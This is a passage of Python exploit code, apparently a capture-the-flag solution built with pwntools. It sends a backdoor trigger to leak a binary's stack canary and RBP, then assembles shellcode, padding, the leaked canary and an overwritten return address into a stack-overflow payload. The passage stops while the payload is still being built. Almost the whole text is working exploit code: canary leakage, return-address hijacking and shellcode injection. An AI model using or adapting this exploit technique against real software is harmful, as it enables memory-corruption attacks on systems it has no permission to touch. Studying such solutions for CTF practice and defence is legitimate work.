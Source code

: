 ```python
padding_size = 0x58
padding_to_v14_size = 0x50
backdoor_trigger = b"".ljust(padding_size - len(backdoor) + 1, b"A") + backdoor
trigger_length = str(len(backdoor_trigger))
padding_to_ret = b"".ljust(0x8, b"A")
v14 = p64(0x736E2B681CA77DD2)
fixed_offset = 0x1150


def to_hex_bytes(data):
    return "".join(f"\\x{byte:02x}" for byte in data)


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
    try:
        target.send(payload)
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")


def leak_data(target):
    try:
        target.sendlineafter(b"Payload size: ", trigger_length)
        send_payload(target, backdoor_trigger)
        target.recvuntil(backdoor)

        canary = b"\x00" + target.recv(0x7)
        rbp = target.recv(0x6)
        log.success(f"Canary: {to_hex_bytes(canary)}\nRBP: {to_hex_bytes(rbp)}")

        return [canary, rbp]
    except Exception as e:
        log.exception(f"An error occurred while leaking canary: {e}")


def construct_payload(target):
    canary, rbp = leak_data(target)
    rbp = int.from_bytes(rbp, "little")

    ret_addr = rbp - fixed_offset

    shellcode = asm(shellcraft.chmod("f", 0o4))
    shellcode_length = len(shellcode)
    shellcode += b"".ljust(padding_to_v14_size - shellcode_length, b"A")
    shellcode += v14
    shellcode += canary
    shellcode += padding_to_ret
    shellcode += p64(ret_addr)
```